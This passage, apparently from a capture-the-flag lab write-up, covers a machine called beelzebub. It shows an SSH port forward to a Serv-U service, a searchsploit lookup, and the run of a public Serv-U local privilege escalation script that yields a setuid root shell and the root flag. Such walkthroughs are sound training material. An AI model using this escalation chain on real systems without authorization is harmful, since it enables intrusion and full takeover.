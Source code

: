 ```bash
tcp6       0      0 ::1:43958               :::*                    LISTEN      -                   
tcp6       0      0 ::1:631                 :::*                    LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -
```

There was a port that stood out 43958. After googling what it was for I found out it was used by the Serv-U File Server. So I forwarded that port to my local machine using ssh.

```bash
ssh -L 43958:localhost:43958 krampus@192.168.56.139
```

![7](https://github.com/user-attachments/assets/8c209205-c40f-4df5-93bc-ac1927df0931)


We are greeted with this page. I tried logging in using krampus’s credentials but that didn’t work. Since the version was visible I tried to see if I could find an exploit for this version of Serv-U.

```bash
searchsploit serv-u
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                                            |  Path
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
<SNIP>
Serv-U FTP Server < 15.1.7 - Local Privilege Escalation (1)                                                                                                                                               | linux/local/47009.c
Serv-U FTP Server < 15.1.7 - Local Privilege Escalation (2)                                                                                                                                               | multiple/local/47173.sh
<SNIP>
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
```

I was able to find these two scripts for local privilege escalation. I decided to use the .sh since it would be easier.

```bash
krampus@beelzebub:/tmp$ ./47173.sh 
[*] Launching Serv-U ...
sh: 1: : Permission denied
[+] Success:
-rwsr-xr-x 1 root root 1113504 Jan 11 06:16 /tmp/sh
[*] Launching root shell: /tmp/sh
sh-4.4# whoami
root
sh-4.4# cd /root
sh-4.4# ls
root.txt
sh-4.4# cat root.txt 
8955qpasq8qq807879p75e1rr24cr1a5
sh-4.4# 
```

After running the script we get root.
